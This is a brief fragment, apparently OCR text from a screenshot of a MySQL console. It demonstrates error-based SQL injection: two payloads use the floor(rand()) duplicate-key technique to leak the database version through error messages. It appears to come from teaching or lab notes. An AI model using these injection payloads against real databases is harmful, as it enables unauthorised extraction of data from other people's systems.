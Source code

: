 	mysql> select * from users where id='1' union select 1,2,3 from (select count(*),concat(floor(rand()*2),version())a from users group by a)b -- ' limit 0,1;
    -> ;
ERROR 1062 (23000): Duplicate entry '05.7.17' for key '<group_key>'

	mysql> select * from users where id='1' and(select 1 from (select count(*),concat(floor(rand()*2),version())a from users group by a)b) -- ' limit 0,1;
    -> ;
ERROR 1062 (23000): Duplicate entry '15.7.17' for key '<group_key>'
     ```